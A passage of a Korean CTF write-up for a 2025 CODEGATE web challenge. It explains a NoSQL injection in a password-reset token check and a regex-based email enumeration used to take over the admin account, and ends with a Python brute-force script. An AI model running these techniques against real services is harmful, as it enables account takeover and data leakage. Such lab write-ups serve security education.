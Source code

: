 또한 임의 폴더 작성만으로 RCE가 가능한 기법이기에 매우 흥미로웠던 취약점이다.

해당 파트에서 각 취약점에 대해 자세히 살펴보겠다.

## Overview

웹서버 동작과정에 관해 간단하게 설명하자면 로그인/회원가입 기능이 있고 로그인 시에 질문을 달 수 있다. 만약 admin으로 로그인으로 할 경우엔 질문에 답변을 달 수 있다.

![메인페이지](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2025.png)

메인페이지

## ADMIN계정 탈취

첫번째로 우리가 해야할 점은 admin 계정을 탈취하는 것이다. 해당 방향에 대해서는 `controllers/userController.js` 의 `resetPassword` 부분에서 실마리를 찾을 수 있었다.

![controllers/userController.js의 resetPassword함수](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2026.png)

controllers/userController.js의 resetPassword함수

change가 true일 경우 email에 해당하는 token을 확인하고 password 변경을 시도하고 있다.

이때, token을 확인하는건 `sendResetPassword` 함수에서 처리하고 있는데 `sendResetPassword` 함수에서 token 값을 그대로 받고 있기 때문에 nosql injection이 발생한다.

![sendResetPassword함수](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2027.png)

sendResetPassword함수

따라서, 해당 함수를 사용하여 guide 이메일의 비밀번호를 바꿀 수 있을 것이다.

그러나 guide 이메일도 app.js에서 확인할 수 있듯이 `REDACTED` 되어 있다.

![app.js의 initMongo함수 부분](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2028.png)

app.js의 initMongo함수 부분

때문에 먼저 guide 이메일을 알아내고 guide 계정의 비밀번호를 변경해야 한다.

guide이메일은 `controllers/userController.js` 의 `createUser`함수 부분에서 알아낼 수 있다.

![controllers/userController.js의 createUser함수](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2029.png)

controllers/userController.js의 createUser함수

email을 Regex로 파악하여 해당 계정이 존재하면 `User already exists`를 존재하지 않고 username이 존재하는 경우엔 `Username already taken` 을 반환한다.

이를 활용하여 먼저 더미 username 계정을 만든 후 email에 적절한 regex값을 넣어 리턴되는 결과를 확인하여 guide email을 유출할 수 있다.

```python
import requests
import tqdm

# URL = "http://43.203.117.21:3000"
URL = "http://127.0.0.1:3000"

words = "abcdefghijklmnopqrstuvwxyz0123456789"
guide_email= "guide_"
email_prefix = "guide\\_"
for i in tqdm.tqdm(range(11)):
    for s in words:
        # qwer계정을 먼저 만들어야 한다.
        r1 = requests.post(URL+'/api/auth/register', json={'username':'qwer','email':f'{email_prefix}{s}.*@admin\\.com', 'password':'qwer'})
        if "User already exists" in r1.text:
            guide_email+= s
            email_prefix+=s
```